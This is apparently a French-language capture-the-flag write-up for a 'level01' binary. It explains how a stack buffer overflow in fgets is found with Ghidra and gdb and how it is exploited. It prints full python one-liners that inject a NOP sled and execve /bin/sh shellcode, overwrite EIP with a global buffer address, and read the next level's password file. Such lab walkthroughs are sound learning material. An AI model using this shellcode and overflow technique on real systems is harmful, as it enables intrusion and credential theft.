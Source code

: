 level01:

On a un exécutable qui demande un username et un mot de passe. En explorant le binaire avec Ghidra on peut voir que le username est dat_wil et le mdp admin. Mais le programme indique wrong password même lorsqu'on entre admin...

Dans tous les cas il n'y a aucun appel à un admin shell donc on va devoir injecter notre propre shellcode. On remarque le fgets pour obtenir le mot de passe qui n'est pas sécurisé, il autorise une écriture de 100 caractères dans un buffer de 64.

On connait la musique, on prend un générateur de pattern et on voit que l'offset est à 80. On met un breakpoint juste après le fgets (b *0x08048579) sur le buffer qui nous intéresse, on lance le programme avec plein de A et on cherche a partir de quelle adresse ils apparaissent > 0xffffd6c0

On va print le user name puis une string de 80 caractères composés d'une nopsled puis de notre shellcode de 28 char puis des 4 char de l'adresse à la fin.
80 - (28 + 4) = 48 pour la nopsled

(python -c 'print "dat_wil\n" + "\x90" * 48 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\xc0\xd6\xff\xff"') > /tmp/wow
cat /tmp/wow - | ./level01

Ca ne marche pas. Bon. Premièrement on remarque que si on run le programme dans gdb l'adresse d'eip n'est pas bien override. Il faut que la nopsled soit à 52 à la place. Et si le dernier byte de l'adresse d'override d'EIP est supérieur à \xbb il est automatiquement set à \xfd (donc on skip notre code). Peut-être une protection de mémoire ?

Dans tous les cas on peut également essayer de placer le shellcode dans le premier buffer (comme strcmp va s'arrêter après dat_wil, et que le buffer est large). De plus c'est une variable globale donc on aura peut-être moins de problème de pointage.

En regardant avec Ghidra on voit que la var a_user_name a l'adresse 0x0804a040, + 7 pour skip dat_wil 0x0804a048 \x48\xa0\x04\x08

(python -c 'print "dat_wil" + "\x90" * 50 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\n" + "A" * 80 + "\x48\xa0\x04\x08"') > /tmp/wow

(cat /tmp/wow; cat /home/users/level02/.pass) | ./level01

C'est bon on a notre password